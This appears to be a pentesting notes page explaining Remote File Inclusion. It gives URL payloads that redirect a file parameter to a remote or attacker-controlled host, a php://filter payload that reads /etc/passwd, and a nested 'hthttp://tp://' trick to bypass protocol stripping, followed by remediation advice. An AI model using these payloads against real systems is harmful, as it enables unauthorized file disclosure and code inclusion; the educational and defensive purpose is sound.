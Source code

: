 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Remote File Inclusion

Also known as RFI, an attacker can redirect actions to or from another server.&#x20;

Here we find a typical process for leveraging this vulnerability:

* Redirect actions of a server via URL parameters

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#It's searching for a file
http://$url/$query?$param=hola.php
<strong>#We can do a redirection to another site
</strong>http://$url/$query?$param=http://$url
#Or a redirection to a local server
http://$url/$query?$param=//$myip
</code></pre>

***

* Sometimes, we will need to check the page code to see the input conditions

{% tabs %}
{% tab title="Case 1" %}
We find that the code is blocking the connection through the HTTP protocol

{% code title="Example source code" overflow="wrap" lineNumbers="true" %}
```php
...
$file = str_replace( array( "http://", "https://" ), "", $file );
...

```
{% endcode %}

In this case, we can try to use another connection protocol

```bash
http://$url/$query?$param=php://filter/resource=/etc/passwd
```

Also if we use `hthttp://tp://` the code will do the replacement and leave us anyway with `http://`, and we will also bypass this verification

```bash
http://$url/$query?$param=hthttp://tp://$url
```
{% endtab %}
{% endtabs %}

## <mark style="color:blue;">Remediation Actions</mark>

* Disable remote file inclusion features in language/platform for example, set _allow\_url\_include = Off_ in PHP configuration
* Avoid including files based on user input to construct, include, or require path
* Validate user input against a strict whitelist of known safe file names or identifiers
* Use static file paths instead of dynamically generating them from input
* Sanitize input by allowing only expected characters like alphanumeric only, no dots, slashes, or protocols
* Ensure proper file path resolution and canonicalize the path
